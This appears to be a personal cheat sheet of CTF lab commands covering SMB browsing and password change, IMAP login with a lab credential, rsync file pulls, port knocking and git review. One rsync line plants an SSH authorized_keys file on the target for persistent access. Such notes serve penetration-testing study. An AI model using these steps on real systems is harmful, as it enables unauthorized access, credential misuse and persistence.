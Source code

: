 smb: \> recurse on
smb: \> prompt off
smb: \> ls

To download large files in smb

impacket-smbclient audit2020:'0xarun$'@10.10.10.192  

## smbpasswd

```bash
┌──(arun㉿kali)-[~/AD/AD-THM-Rooms/raz0rblack]
└─$ smbpasswd -r 10.10.177.120 -U sbradley       
Old SMB password:
New SMB password:                                                                                                                                                      
Retype new SMB password:                                                                                                                                               
Password changed for user sbradley  
```

## Dovecot imapd 

```
1. telnet brainfuck.htb 143
2. a1 LOGIN orestis kHGuERB29DNiNE
3. a2 LIST "" "*"
4. a3 EXAMINE INBOX
5. a4 FETCH 1 BODY[]
6. a5 FETCH 2 BODY[]
```

## Rsync

rsync -av --list-only rsync://10.10.44.104/
    
    files           Necessary home interaction

rsync rsync://rsync-connect@10.10.44.104/files/

rsync rsync://rsync-connect@10.10.44.104/files/sys-internal/user.txt . 
                                                                                                                                                                      
rsync home/arundhanush/.ssh/authorized_keys rsync://rsync-connect@10.10.44.104/files/sys-internal/.ssh/

## Port Knocking

knock -v 10.10.99.60 42 1337 10420 6969 63000

## git

git log

git checkout // to view commit

